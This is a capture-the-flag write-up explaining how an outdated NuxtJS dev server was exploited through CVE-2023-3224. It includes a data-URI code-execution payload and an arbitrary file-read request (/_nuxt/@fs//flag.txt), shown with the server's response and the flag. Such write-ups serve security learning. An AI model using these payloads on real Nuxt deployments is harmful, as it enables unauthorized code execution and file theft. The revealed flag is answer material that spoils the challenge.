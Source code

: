 ```yaml
---
title: WebNoName
date: 2023-12-10T13:37:49+02:00
description: Writeup for Subject Encallmente [TCP1P]
author: 1byteBoy
tags:
  - Web
draft: false
---
```


## Description

**`Author: daffainfo`**

It turns out that learning to make websites using NuxtJS is really fun

[http://ctf.tcp1p.com:45681](http://ctf.tcp1p.com:45681)

## Intuition

The challenge came with a zip file that contains the following files

```
.
├── docker-compose.yml
└── src
    ├── app.vue
    ├── Dockerfile
    └── flag.txt
```

the most important file to look here is the `Dockerfile` 

```dockerfile
# Use the official Node.js image as the base image
FROM node:18

# Install PNPM
RUN npm uninstall -g yarn pnpm
RUN npm install -g corepack

#RUN mkdir /.cache && chmod -R 777 node_modules/.cache
# Set the working directory in the container
WORKDIR /app

# Clone the Nuxt.js repository and switch to the desired release
RUN git clone https://github.com/nuxt/framework.git /app && \
cd /app && \
git checkout v3.0.0-rc.12

# Copy the test.txt file from the build context into the container
COPY flag.txt /

# Copy app.vue into container
COPY app.vue /app/playground/

# Install project dependencies using pnpm
RUN pnpm install
RUN pnpm build:stub

# Add new user named ctf and add permission for corepace
RUN useradd -ms /bin/bash ctf
RUN mkdir /home/ctf/.cache && chmod -R 777 /home/ctf/.cache && chmod -R 777 /app

# Change to user ctf
USER ctf

# Expose the port that Nuxt.js will run on
EXPOSE 3000

# Start the Nuxt.js development server
CMD ["pnpm", "run", "dev", "--host", "0.0.0.0"]
```

there is lot of thing to consider but most importantly 

```
RUN git clone https://github.com/nuxt/framework.git /app && \
cd /app && \
git checkout v3.0.0-rc.12
```

so the developer is cloning the source code of a framework and if we check the link it's a framework called **NuxtJS**. So after cloning the repository it seems, the developer is either going back to some release version and that is the main problem. 

Now if we look for NuxtJS vulnerability with that version number here what we get. First, the core repo is archived and the development has shifted to another repo https://github.com/nuxt/framework

Now if we google for `nuxt framwork security vulnerablity` here is one of the site that we get [nuxt-framework-remote-code-execution_CVE-2023-3224 which talks about](https://pentest-tools.com/vulnerabilities-exploits/nuxt-framework-remote-code-execution_CVE-2023-3224) which talks about the following

*Nuxt Framework is affected by a Remote Code Execution vulnerability inside the `nuxt-root.vue` component. The root cause of this vulnerability is improper sanitization of user-provided input in the URL by accessing `/__nuxt_component_test__/` endpoint. This allows an unauthenticated malicious attacker to execute commands on the Node.js server.*

**Nuxt Framework - Remote Code Execution (CVE-2023-3224)**

the site links to further resources one of which is 
https://nvd.nist.gov/vuln/detail/CVE-2023-3224

This above site further links to a report site which talks a little more detailed about the CVE 
https://huntr.dev/bounties/1eb74fd8-0258-4c1f-a904-83b52e373a87/

*at this point i was not sure and payloads were not working, i tried the same thing but it was not working, payload like*

```
/__nuxt_component_test__/?path=data%3Atext%2Fjavascript%2Cconsole%2Elog%28%22hello%21%22%29%3B
```

now if we understand what it is doing, it is generally importing the parameter that we pass and executing it in the console, but for us it's different we get one of the errors if we do so 

```
The stylesheet [http://ctf.tcp1p.com:45681/_nuxt/app.vue?vue&type=style&index=0&scoped=938b83b0&lang.css](http://ctf.tcp1p.com:45681/_nuxt/app.vue?vue&type=style&index=0&scoped=938b83b0&lang.css "http://ctf.tcp1p.com:45681/_nuxt/app.vue?vue&type=style&index=0&scoped=938b83b0&lang.css") was not loaded because its MIME type, “application/javascript”, is not “text/css”.
```

cause our app is not any script rather a *text/css* file, so we can't execute any commands but don't worry there are many other ways to exploit it that i got in the following

What i did is google a second time for `__nuxt__ components vulnerability 2023` and got a site https://cve.report/CVE-2023-3224, this site contains most of the blog post or twitter post that talks about the CVE

https://twitter.com/i/web/status/1669259637139427329
https://twitter.com/i/web/status/1669339995780558849

these post contain a similar link to a blog post, which helped me to solve the challenge

The blog explain the CVE in a really detailed way and show different ways of how we can exploit the vulnerability, one of the is 

**Arbitrary File Read in development mode** where we can read any file using the following `/_nuxt/@fs/file/path/here`

now we can intercept the request and paste the following to get the flag

## Solution

```css
GET /_nuxt/@fs//flag.txt HTTP/1.1
Host: ctf.tcp1p.com:3	000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=21d0ddf1-7c17-48ca-9750-677d04652b56.LkVLdjGo-hu-7LT00_C1YrpJKag
Upgrade-Insecure-Requests: 1
```

```css
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Length: 33
Content-Type: text/plain
Last-Modified: Wed, 11 Oct 2023 15:04:44 GMT
ETag: W/"33-1697036684000"
Cache-Control: no-cache
Date: Sat, 14 Oct 2023 15:18:12 GMT
Connection: close

TCP1P{OuTD4t3d_NuxxT_fR4m3w0RkK}
```


